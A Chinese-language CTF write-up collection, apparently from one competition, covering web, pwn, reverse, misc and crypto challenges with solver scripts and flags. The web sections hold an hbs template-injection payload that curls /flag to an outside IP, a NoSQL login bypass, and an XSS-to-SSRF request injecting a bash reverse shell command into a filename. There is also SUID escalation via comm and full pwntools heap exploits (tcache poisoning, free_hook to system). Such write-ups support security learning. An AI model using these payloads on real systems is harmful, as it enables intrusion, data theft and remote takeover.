看一下package.json，一个一个查漏洞：

```json
{
  "name": "app",
  "version": "0.0.0",
  "private": true,
  "scripts": {
    "start": "node ./bin/www",
    "dev": "nodemon index.js -e js"
  },
  "dependencies": {
    "cookie-parser": "~1.4.4",
    "crypto": "^1.0.1",
    "debug": "~2.6.9",
    "express": "~4.16.1",
    "hbs": "^4.0.1",
    "http-errors": "~1.6.3",
    "morgan": "~1.9.1",
    "multer": "^1.4.3",
    "mysql": "^2.18.1",
    "path": "^0.12.7",
    "sequelize": "^6.7.0"
  }
}

```

查hbs的模板渲染的时候，查到了一个`CVE-2021-32822`：

https://securitylab.github.com/advisories/GHSL-2021-020-pillarjs-hbs/

本来以为是个任意文件的读取：



读`/flag`的时候发现读的文件必须要有个后缀，不然就自动加上.hbs：


然后想到了，这应该是解析模板文件的，利用上传功能，就可以实现模板渲染rce。

查一下hbs的模板渲染rce：

https://xz.aliyun.com/t/4695

写个curl外带的POC：

```html
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.constructor._load('child_process').exec('curl http://121.5.169.223:39767/ -F file=@/flag')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

传过去：


再解析这个模板文件：




带出flag：


# OldLibrary

一道Go。先是登录和注册的功能，后续的功能利用有2种限制，一个是localhost一个是admin：

```go
func AdminCheckMiddleWare() gin.HandlerFunc {    // You can't be administrator
    return func(c *gin.Context) {
        session := sessions.Default(c)

        if session.Get("uname") == nil {
            c.Header("Content-Type", "text/html; charset=utf-8")
            c.String(200, "<script>alert('You have not logged in yet');window.location.href='/auth'</script>")
            return
        }

        if session.Get("uname").(string) != os.Getenv("ADMIN_USER") {
            c.Header("Content-Type", "text/html; charset=utf-8")
            c.String(200, "<script>alert('You are not admin, and you can not be admin either!');window.location.href='/auth'</script>")
            return
        }

        c.Next()
    }
}
func IPCheckMiddleWare() gin.HandlerFunc {
    return func(c *gin.Context) {
        if c.Request.RemoteAddr[:9] != "127.0.0.1" && c.Request.RemoteAddr[:9] != "localhost" {
            c.JSON(403, gin.H{"msg": "I'm sorry, your IP is forbidden"})
            return
        }

        c.Next()
    }
}
```

admin这里告诉我们用户名是`administrator`，但是密码不知道。

审一下代码发现登录那里存在SQL注入：

```go
    err = db_table.Find(bson.M{"$where":"function() {if(this.username == '"+user.Username+"' && this.password == '"+user.Password+"') {return true;}}"}).One(&result)
```

里面是js代码的判断，以`administrator`用户名登录成功即可。很容易了，直接收一下js代码就行：

```
username=administrator&password='||this.username=='administrator
```


发现有localhost限制的功能那里有个rce：

```go
func DeleteController(c *gin.Context) {    // The function is temporarily inaccessible

    var filename Filename
    if err := c.ShouldBindJSON(&filename); err != nil {
        c.JSON(500, gin.H{"msg": err})
        return
    }
    
    cmd := exec.Command("/bin/bash", "-c", "rm ./upload/pdf/" + filename.Filename)
    if err := cmd.Run(); err != nil {
        fmt.Println(err)
        return
    }
```

所以得先ssrf。


`/submit`的功能看一下就是给点参数然后弄成一个html然后渲染成pdf，很容易联想到今年祥云杯的那道`secrets_of_admin`，拿pdf来ssrf。


写一下js 来ssrf实现rce就行：

```http
POST /submit HTTP/1.1
Host: eci-2ze5gq1gtiew9prd5bn1.cloudeci1.ichunqiu.com:8888
Content-Length: 799
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze5gq1gtiew9prd5bn1.cloudeci1.ichunqiu.com:8888
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGaez0qbXRXdUlHaf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://eci-2ze5gq1gtiew9prd5bn1.cloudeci1.ichunqiu.com:8888/submit
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: __jsluid_h=7f4d85f214af75c12d03309d6885e159; mysession=MTYzNTY2NzU3N3xOd3dBTkUxU1RGRTJURUpNUzBwU1RUSXpSRlpCV1VwSlZrSmFOVlJNUTBSUFZsQkVTVFEzVkVoSVJESkNWbFZWTnpOR1FVRk9SMUU9fIiPFzlMoaVOs65bjmTmFCpCrHIsD8_sgSWXQB5M8XQp
Connection: close

------WebKitFormBoundaryGaez0qbXRXdUlHaf
Content-Disposition: form-data; name="title"

1234
------WebKitFormBoundaryGaez0qbXRXdUlHaf
Content-Disposition: form-data; name="author"

456
------WebKitFormBoundaryGaez0qbXRXdUlHaf
Content-Disposition: form-data; name="description"

1</td><script>
var httpRequest = new XMLHttpRequest();
httpRequest.open('POST', 'http://127.0.0.1:8888/delete', true);
httpRequest.setRequestHeader("Content-type","application/json");
var obj = { "filename":"1234.pdf;bash -i >& /dev/tcp/121.5.169.223/39767 0>&1" };
httpRequest.send(JSON.stringify(obj));
</script><td>1
------WebKitFormBoundaryGaez0qbXRXdUlHaf
Content-Disposition: form-data; name="covers"; filename="1.txt"
Content-Type: text/plain

321
------WebKitFormBoundaryGaez0qbXRXdUlHaf--

```

shell弹过来了，然后看一下读flag，没权限。尝试一下suid提权，看一下：

```shell
ctfer@engine-1:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/xorg/Xorg.wrap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/chfn
/usr/bin/comm
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pkexec
ctfer@engine-1:/$

```

发现有`comm`，直接利用comm读`/flagggisshere`：

```shell
ctfer@engine-1:/$ comm /flagggisshere /etc/passwd
comm /flagggisshere /etc/passwd
flag{3c515cc6-3ce2-4c3d-9dbc-001ec5f8f13a}
      root:x:0:0:root:/root:/bin/bash
comm: file 2 is not in sorted order
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
      systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
      systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
      messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
      usbmux:x:105:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
      rtkit:x:106:110:RealtimeKit,,,:/proc:/usr/sbin/nologin
      dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
      cups-pk-helper:x:108:112:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
      avahi:x:109:113:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
      saned:x:110:115::/var/lib/saned:/usr/sbin/nologin
      colord:x:111:116:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
      geoclue:x:112:117::/var/lib/geoclue:/usr/sbin/nologin
      pulse:x:113:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
      gdm:x:114:120:Gnome Display Manager:/var/lib/gdm3:/bin/false
      mongodb:x:115:121::/var/lib/mongodb:/usr/sbin/nologin
      ctfer:x:1000:1000::/home/ctfer:/bin/bash
ctfer@engine-1:/$
```


# cpp1

## 题目分析

cpp菜单题



漏洞就在编辑堆块的时候没有限制编辑堆块的范围，造成堆溢出。



## 思路

通过风水布置堆块造成overlapping，达到任意写的目的。先泄露堆块地址，再劫持tcache_perthread_struct，将对应大小的tcache bin的counts填满，释放大于fastbins的堆块到unsorted bin里leak libcbase地址。然后将free hook改system，释放‘/bin/sh’的堆块拿shell。

## exp

```python
from pwn import*
context.log_level = 'debug'
context.arch='amd64'
binary = './pwn' 
main_arena = 0x1ebb80
s = lambda buf: io.send(buf)
sl = lambda buf: io.sendline(buf)
sa = lambda delim, buf: io.sendafter(delim, buf)
sal = lambda delim, buf: io.sendlineafter(delim, buf)
shell = lambda: io.interactive()
r = lambda n=None: io.recv(n)
ra = lambda t=tube.forever:io.recvall(t)
ru = lambda delim: io.recvuntil(delim)
rl = lambda: io.recvline()
rls = lambda n=2**20: io.recvlines(n)
su = lambda buf,addr:io.success(buf+"==>"+hex(addr))
local = 1
if local == 1:
    io=process(binary)
else:
    io=remote('47.104.143.202',43359)
elf=ELF(binary)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def choice(index):
	ru(">>")
	sl(str(index))
	
def add(index,size):
	choice(1)
	ru("I:>>")
	sl(str(index))
	ru("S:>>")
	sl(str(size))
	
def edit(index,content):
	choice(2)
	ru("I:>>")
	sl(str(index))
	ru("V:>>")
	sl(content)
	
def free(index):
	choice(4)
	ru("I:>>\n")
	sl(str(index))
	
def show(index):
	choice(3)
	ru("I:>>")
	sl(str(index))
	
add(0,0x38)
add(1,0x28)
add(2,0x28)
add(3,0x28)
add(4,0x28)
free(2)
free(1)
edit(0,b'a'*0x38+p64(0x31))
add(1,0x28)
add(2,0x28)
free(3)
free(1)

show(2)
rl()
chunk = u64(rl()[:-1].ljust(8,b'\x00'))-0x12f60
su('chunk',chunk)
edit(2,p64(chunk+0x10))
add(1,0x28)
add(3,0x28)
edit(3,b'\x07\x00'*0x40)
edit(0,b'a'*0x38+p64(0x91))
free(1)
show(2)
libc_base = u64(ru(b'\x7f')[-6:].ljust(8,b'\x00')) - main_arena - 96
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
edit(3,b'\x00\x00'*0x40)
add(1,0x28)
free(4)
free(1)
edit(2,p64(free_hook))
add(1,0x28)
edit(1,'/bin/sh\0')
add(4,0x28)
edit(4,p64(system))
free(1)
shell()
```



flag{96f7801e4e658271915cf5ab3aa26ee6}

# gcc2

## 题目分析

和cpp1一样是一个菜单题



漏洞在释放堆块的时候没有将指针悬空，造成uaf。



## 思路

同样的，doublefree达到overlapping，实现任意写的目的，劫持tcache_perthread_struct，将对应0x290大小的tcache bin的counts写满，释放tcache_perthread_struct堆块到unsorted bin里leak libcbase地址，然后将free hook改system，释放‘/bin/sh’的堆块拿shell。

## exp

```python
from pwn import*
context.log_level = 'debug'
context.arch='amd64'
binary = './pwn' 
main_arena = 0x1ebb80
s = lambda buf: io.send(buf)
sl = lambda buf: io.sendline(buf)
sa = lambda delim, buf: io.sendafter(delim, buf)
sal = lambda delim, buf: io.sendlineafter(delim, buf)
shell = lambda: io.interactive()
r = lambda n=None: io.recv(n)
ra = lambda t=tube.forever:io.recvall(t)
ru = lambda delim: io.recvuntil(delim)
rl = lambda: io.recvline()
rls = lambda n=2**20: io.recvlines(n)
su = lambda buf,addr:io.success(buf+"==>"+hex(addr))
local = 0
if local == 1:
    io=process(binary)
else:
    io=remote('47.104.143.202',15348)
elf=ELF(binary)
libc=ELF('./libc-2.31.so')
def choice(index):
	ru(">>")
	sl(str(index))
	
def add(index,size):
	choice(1)
	ru("I:>>")
	sl(str(index))
	ru("S:>>")
	sl(str(size))
	
def edit(index,content):
	choice(2)
	ru("I:>>")
	sl(str(index))
	ru("V:>>")
	sl(content)
	
def free(index):
	choice(4)
	ru("I:>>\n")
	sl(str(index))
	
def show(index):
	choice(3)
	ru("I:>>")
	sl(str(index))
	
add(0,0x67)
add(1,0x67)

free(1)
free(0)
show(0)
rl()
chunk = u64(rl()[:-1].ljust(8,b'\x00')) - 0x12ef0-0x40
su('chunk',chunk)

edit(0,p64(chunk+0x10))
add(2,0x67)
add(3,0x67)
edit(3,b'\x07\x00'*0x29)
free(3)
show(3)
libc_base = u64(ru(b'\x7f')[-6:].ljust(8,b'\x00')) - main_arena - 96
hook_addr = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
edit(3,b'\x00\x00'*0x29)
free(1)
free(0)
edit(0,p64(hook_addr))
add(4,0x67)
add(5,0x67)
edit(5,p64(system))
edit(1,'/bin/sh\0')
free(1)
#gdb.attach(io)
shell()
```




# ooo

题目很简单，就一个异或

```c
__int64 __fastcall sub_401E40(__int64 a1, int a2, int a3, int a4, int a5, int a6)
{
  __int64 result; // rax
  char v7; // [rsp+Bh] [rbp-75h]
  int i; // [rsp+Ch] [rbp-74h]
  u32 uaddr2[2]; // [rsp+10h] [rbp-70h] BYREF
  __int64 v10; // [rsp+18h] [rbp-68h]
  __int64 v11; // [rsp+20h] [rbp-60h]
  __int64 v12; // [rsp+28h] [rbp-58h]
  __int64 v13; // [rsp+30h] [rbp-50h]
  __int64 v14; // [rsp+38h] [rbp-48h]
  __int64 v15; // [rsp+40h] [rbp-40h]
  __int64 v16; // [rsp+48h] [rbp-38h]
  __int64 v17; // [rsp+50h] [rbp-30h]
  __int64 v18; // [rsp+58h] [rbp-28h]
  __int64 v19; // [rsp+60h] [rbp-20h]
  __int64 v20; // [rsp+68h] [rbp-18h]
  int v21; // [rsp+70h] [rbp-10h]
  unsigned __int64 v22; // [rsp+78h] [rbp-8h]

  v22 = __readfsqword(0x28u);
  *(_QWORD *)uaddr2 = 0LL;
  v10 = 0LL;
  v11 = 0LL;
  v12 = 0LL;
  v13 = 0LL;
  v14 = 0LL;
  v15 = 0LL;
  v16 = 0LL;
  v17 = 0LL;
  v18 = 0LL;
  v19 = 0LL;
  v20 = 0LL;
  v21 = 0;
  sub_410DF0((unsigned int)"give me a flag: ", a2, a3, a4, a5, a6);
  sub_418970(uaddr2);
  v7 = v10 ^ HIBYTE(uaddr2[1]) ^ BYTE1(v10);
  for ( i = 0; i <= 41; ++i )
    *((_BYTE *)uaddr2 + i) ^= v7;
  if ( (unsigned int)sub_401DE7((__int64)uaddr2) )
  {
    sub_418C70("okk");
    sub_410330(0LL);
  }
  sub_418C70("nono, may be.... ");
  result = 0LL;
  if ( __readfsqword(0x28u) != v22 )
    sub_454840();
  return result;
}
```

不好做的地方是不知道v7的值，直接1-255爆破得到flag

```python
data='''
11
1B
16
10
0C
46
44
11
44
42
41
41
44
5A
42
47
16
43
5A
43
40
40
15
5A
45
40
4F
15
5A
15
40
46
46
47
45
41
11
11
40
16
13
0A'''
lst=data.split()
data=''
print(len(lst))
for j in range(255):
    for i in lst:
        data+=chr(int(i,16)^j^0x17)
    print(data)
    data=''
```

flag{13f35663-50a4-477b-278b-b711026ff7ad}


# Hello

解压发现apk文件，jeb打开静态分析，首先查看manifest文件



发现进入函数com.example.hello.MainActivity



首先发现输入字符串长度为42，且存在一个关键函数MainActivity.**this**.stringFromJNI 在native层



解压apk文件找到so文件，ida打开找到该函数



查看函数逻辑，简单而言就是一个循环异或和一组移位

循环移位中用到了原来jeb中传入的参数——apk签名

通过自己写一个程序，使用

getPackageManager().getPackageInfo(**"com.example.hello"**, **0x40**).*signatures*;

获取apk签名



然后进行比较





导出比较字符串



写脚本

```
memory = [0xCA, 0xEB, 0x4A, 0x8A, 0x68, 0xE1, 0xA1, 0xEB, 0xE1, 0xEE,
  0x6B, 0x84, 0xA2, 0x6D, 0x49, 0xC8, 0x8E, 0x0E, 0xCC, 0xE9,
  0x45, 0xCF, 0x23, 0xCC, 0xC5, 0x4C, 0x0C, 0x85, 0xCF, 0xA9,
  0x8C, 0xF6, 0xE6, 0xD6, 0x26, 0x6D, 0xAC, 0x0C, 0xAC, 0x77,
  0xE0, 0x64]
signature = '308202e4308201cc020101300d06092a864886f70d010105050030373116301406035504030c0d416e64726f69642044656275673110300e060355040a0c07416e64726f6964310b30090603550406130255533020170d3231303330363134333034385a180f32303531303232373134333034385a30373116301406035504030c0d416e64726f69642044656275673110300e060355040a0c07416e64726f6964310b300906035504061302555330820122300d06092a864886f70d01010105000382010f003082010a0282010100cbf2b09e4308ebb459e8841e5a7b920497fef2b349e80648f7eb35f48d40a75e7ce7945b8b42d197bec0bf177e6c9899ed707dcc4a726cb14c1a69b0c4a02474806fa73cfb10e10f7b1665021c24762b6edad65ca63cea3c72e0d4e4ca3f98301173eec3254337af1f5a11f779ecbe04d1b74d53f5835e011222155a56f97e00d75374cd93080dfa087cd356a99fe1eebf5d6d5e31846aad5252c3a17a4656e2e210ce1c7aa4d147fb8cf440a50add61bbb2ec299a2e0dab0b4504796ac3a899da553ab1d83576691ab23409d18398014b3b5eaf12e83f4d99aa09e1e4e4cae133530730c1133da2b3dee37b58eb1a5795b221ec5a8830731a41167d295f9e1b0203010001300d06092a864886f70d010105050003820101000e4740235e9cf2be33de3e06d777139cbbc5cf0622285c17da04697b8067318aaf8df0fbb4d3166f293ea15aa2592f06eb6929af063722ac9f30ad85e2c087564931d6ac65fcd5fbc864b3dc9841e039c6e1d5fbc5c2f8adf90a547bc4ebc07d387914db24451c2cc89925359bd3bb0750c7aabf9d743b1893e98bbc8ff74b24fc0b4be2dbaaf1c917bba01496d0617ffc3a4a8b7a6e79a3036298a6ebf57bb00001e43a0b242864eebb0fcec9e323144d4447c878430f18e6e358ad97566fa04d1f07b171c1476c9af5a1eba0bf6616e219c0b9e1299d09fecded24a880397f92e0f99d8951228c7770c184fd77adff943bfc8b6aa524c5f0a6d7686fe35486'
flag = ''
for i in range(len(memory)):
    for j in range(32, 128):  #可见字符ascii爆破
        temp = j ^ (ord(signature[327 + i * 27]) + i)
        if memory[i] == ((temp >> 3) & 0x1f) ^ ((temp << 5) & 0xff):
            flag += chr(j)
            break
print(flag)
```

得到flag：

flag{d5577edd-8211-7a0e-f23a-305b0b10683f}


# Mod

Ida打开主函数：



发现关键函数 sub_401320和base64表




进入关键函数，虽然表面看上去没问题，但是经过动态调试，会发现在 return result;后进入了一段未知代码





原来是利用call和retn造成的反编译

这里简单粗暴地使用nop进行修复：



 



找到和之前不一样的地方-->关键函数sub_AC11A0



打开发现是魔改base64算法，每4个字符由3个输入字符组成

写脚本

 

```
memory = "2aYcdfL2fS1BTMMF1RSeMTTASS1OJ8RHTJdBYJ2STJfNMSMAYcKUJddp"
base64_table = "ABCDFEGH1JKLRSTMNP0VWQUXY2a8cdefijklmnopghwxyqrstuvzOIZ34567b9+/"  #不是原表
data=[]
for i in range(len(memory)):
    data.append(base64_table.index(memory[i]))

flag = ''
for i in range(0,len(data),4):
    bit1 = ((data[i]<<2&0xff)&0xc0) | (((data[i+1]<<2&0xff)&0xc)>>2) | ((data[i+2]<<2&0xff)&0x30) | ((data[i+3]<<2&0xff)&0xc0)>>4
    bit2 = ((data[i+1]<<2&0xff)&0xc0) | (((data[i+2]<<2&0xff)&0xc)>>2) | ((data[i]<<2&0xff)&0x30) | ((data[i+3]<<2&0xff)&0x30)>>2
    bit3 = ((data[i+2]<<2&0xff)&0xc0) | (((data[i]<<2&0xff)&0xc)>>2) | ((data[i+1]<<2&0xff)&0x30) | (data[i+3]<<2&0xff)&0xc

    print(bit1,end=",")
    print(bit2,end=",")
    print(bit3,end=",")
    flag += chr(bit1)+chr(bit2)+chr(bit3)
print()
print(flag)
```

得到flag

flag{5a073724-8223-413d-11fa-d53b133df89e}


# checkin

utf-7编码，转成utf-8即可。

# JumpJumpTiger



```html
> # file jump.exe
jump.exe: PE32+ executable (console) x86-64, for MS Windows
```

`ida64`打开，查看`main`函数


根据提示可知，提示`奇偶`，`Shift+F12`发现大量字符串

查看开头`/i9VjB/...`，经验丰富的misc手很容易发现`iVB...`这是`png`的base64开头数据，且中间隔这一个字符，另外查入的字符是`jpg`base64编码后的开头

那么就可以根据`main`给出的提示进行猜测，这么长的base64数据，奇数位是`jpg`图片base64之后的数据，偶数位是`png`图片base64之后的数据

将这段base64提取出来，用`记事本`或者`010Editor`复制

```python
from base64 import *

with open('img1.txt') as f:
    data = f.read()
    print(len(data))
    jpg_data = ''
    png_data = ''
    for i in range(len(data)):
        if i % 2 == 0:
            jpg_data += data[i]
        else:
            png_data += data[i]

with open('flag.png', 'wb') as f1:
    f1.write(b64decode(png_data))

with open('flag.jpg', 'wb') as f2:
    f2.write(b64decode(jpg_data))
```


png图片并不完整，010Editor打开发现数据并不完整，连`IEND`结尾都没有

继续`ida`分析发现在base64数据之后还有一大串字符

很规律的用`0`进行了分隔，猜测这就是`png`图片剩下的base64编码数据
这里数据实在太长，不建议手动复制，使用Python简单处理

```python
with open('jump.exe', 'rb') as f:
	f.seek(0x10DF00)
	data = f.read(0x6C675F+1)
	with open('part2_png.txt', 'w') as f1:
		f1.write(data.decode())
```

然后拼接上之前的`png`base64数据，使用Python简单处理

```python
from base64 import *

with open('img1.txt') as f:
    data = f.read()
    jpg_data = ''
    png_data = ''
    for i in range(len(data)):
        if i % 2 == 0:
            pass
        else:
            png_data += data[i]

with open('part2_png.txt') as f1:
    data1 = f1.read()
    for idx in range(len(data1)):
        if idx % 2 == 0:
            pass
        else:
            png_data += data1[idx]

with open('flag.png', 'wb') as f2:
    f2.write(b64decode(png_data))
```


盲水印，`png`图片很明显是盲水印之后的图片


看不清就用`stegsolve`调整一下通道

```html
flag{72f73bbe-9193-e59a-c593-1b1cb8f76714}
```


# project

下载附件，然后发现一堆乱七八糟的文件，然后发现有个特殊的zip文件，解压看看

  

里面看起来有很多层加密，第一个base64



第二个，是quoted-printable加密，百度quoted-printable加密，第一个就是一个在线网站



```
<html><head><meta http-equiv="content-type" content="text/html; charset=UTF-8"><style>body { line-height: 1.5; }body { font-size: 14px; font-family: "Microsoft YaHei UI"; color: rgb(0, 0, 0); line-height: 1.5; }body { font-size: 14px; font-family: "Microsoft YaHei UI"; color: rgb(0, 0, 0); line-height: 1.5; }</style></head><body>
<div><div>表情包文化，是随着网络社交沟通的增多出现的一种主流文化。一个人的表情包是其隐藏起来的真我，一个国家的表情包里能看到这个国家的表情。‌‌‌‌‍‬‬‌有时候，表情包表达的是不能道破的真实想法和感受，语言和文字的尽头，就是表情包施展的空间。</div><div>表情包是网络语言的一种进化，它的产生和流行与其特定的“‌‌‌‌‍‍‍生存环境”有关。其追求醒目、新奇、谐谑等效果的特点，‌‌‌‌‍‌‬与年轻人张扬个性和搞怪的心理相符‌‌‌‌‍‌‬。</div><div>表情包之所以能够大范围地传播，‌‌‌‌‍‬‍是因为其弥补了文字交流的枯燥和态度表达不准确的弱点，有效地提高了沟通效率。部分表情包具有替代文字的功能，‌‌‌‌‍‍‍还可以节省打字时间‌‌‌‌‍‌‌。随着智能手机的全面普及和社交应用软件的大量使用，表情包已经高频率地出现在人们的网络聊天对话当中。</div></div></body></html>
```

第三段是jpg图片的base64数据，然后base64转图片得到一张jpg图片

!

OurSecret隐写，OurSecret隐写需要密钥，第二段数据中间的文字，藏有0宽字符

解0宽得到密钥 hurryup

!

解密得到

!

# BlockEncrypt

是aes的加密，但是具体的加密细节没给，去逆向那个pyc，但是去试了试发现当改变其中一个字节的时候，只会让对应位置的密文发生改变，所以直接爆破：

```python
from pwn import *
import hashlib


s = "flag{abcdef0123456789-}"


def check(a, b):
	m = []
	for i in range(10):
		m.append(str(i))
	for i in range(26):
		m.append(chr(i+0x41))
		m.append(chr(i+0x61))
	for i in m:
		for j in m:
			for k in m:
				for p in m:
					t = i+j+k+p+a
					if hashlib.sha256(t.encode()).hexdigest() == b:
						print("find")
						return t[:4]


# check
sh = remote("47.104.183.8", 47971)
sh.recvuntil(b"X+")
a = (sh.recvuntil(b")", drop=True).decode())
sh.recvuntil(b"== ")
b = (sh.recvuntil(b"\n", drop=True).decode())
sh.send(check(a, b).encode())
sh.recv()
print(sh.recv().decode())
# get cipher
sh.send(b'1')
sh.recv()
sh.recvuntil(b"\n", drop=True)
flag = (sh.recvuntil(b"\n[+]", drop=True))
print()
# get flag
t = 0
r = ""
while True:
	for i in s:
		m = r + i
		m = m.encode()
		sh.send(b'2')
		sh.send(m)
		sh.recv()
		sh.recv()
		sh.recvuntil(b"CipherText:", drop=True)
		c = (sh.recvuntil(b"\n[+]", drop=True))
		if c[t] == flag[t]:
			r = r+i
			t += 1
			print(r)

```

